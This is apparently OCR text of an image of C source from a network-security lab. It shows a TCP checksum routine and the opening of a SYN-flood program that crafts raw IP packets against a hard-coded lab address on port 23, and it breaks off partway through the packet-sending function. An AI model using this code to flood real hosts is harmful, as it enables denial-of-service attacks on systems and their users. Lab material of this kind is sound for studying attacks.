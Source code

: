 ```c


unsigned short calculate_tcp_checksum(struct ipheader *ip)
{
   struct tcpheader *tcp = (struct tcpheader *)((u_char *)ip +
                            sizeof(struct ipheader));

   int tcp_len = ntohs(ip->iph_len) - sizeof(struct ipheader);

   /* pseudo tcp header for the checksum computation */
   struct pseudo_tcp p_tcp;
   memset(&p_tcp, 0x0, sizeof(struct pseudo_tcp));

   p_tcp.saddr  = ip->iph_sourceip.s_addr;
   p_tcp.daddr  = ip->iph_destip.s_addr;
   p_tcp.mbz    = 0;
   p_tcp.ptcl   = IPPROTO_TCP;
   p_tcp.tcpl   = htons(tcp_len);
   memcpy(&p_tcp.tcp, tcp, tcp_len);

   return  (unsigned short) in_cksum((unsigned short *)&p_tcp,
                                     tcp_len + 12);
}
```
```c
// tcp_syn_flooding.c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

#include "myheader.h"

#define DEST_IP "192.168.230.150"
#define DEST_PORT 23
#define PACKET_LEN 1500

unsigned short calculate_tcp_checksum(struct ipheader *ip);


void send_raw_ip_packet(struct ipheader* ip)
{
    struct sockaddr_in dest_info;
    int enable = 1;

    // Step 1: Create a raw network socket.
    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

    // Step 2: Set socket option.
    setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
                     &enable, sizeof(enable));

    // Step 3: Provide needed information about destination.
    dest_info.sin_family = AF_INET;
    dest_info.sin_addr = ip->iph_destip;

    // Step 4: Send the packet out.
    sendto(sock, ip, ntohs(ip->iph_len), 0,
           (struct sockaddr *)&dest_info, sizeof(dest_info));
```